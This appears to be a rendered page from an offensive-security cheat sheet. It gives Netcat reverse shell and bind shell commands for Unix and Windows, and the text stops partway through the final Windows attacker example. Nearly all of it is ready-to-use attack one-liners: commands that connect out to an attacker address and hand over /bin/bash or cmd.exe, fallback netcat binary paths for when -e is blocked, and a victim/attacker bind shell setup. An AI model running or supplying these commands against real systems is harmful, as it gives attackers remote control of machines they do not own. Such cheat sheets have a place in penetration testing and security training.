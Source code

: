 ## Netcat

### Reverse Shell

Reverse Shell

Unix

```
nc 192.168.0.1 4444 -e /bin/bash

```

If -e is not allowed, try to find other versions of netcat

```
/bin/nc
/usr/bin/ncat
/bin/netcat
/bin/nc.traditional

```

Windows

```
nc 192.168.0.1 4444 -e cmd.exe

```

### Bind Shell

Bind shell

Unix

Victim:

```
nc -nlvp 4444 -e /bin/bash

```

Attacker:

```
nc 192.168.0.1 4444

```

Windows

Victim:

```
nc -nlvp 4444 -e cmd.exe

```

Attacker:
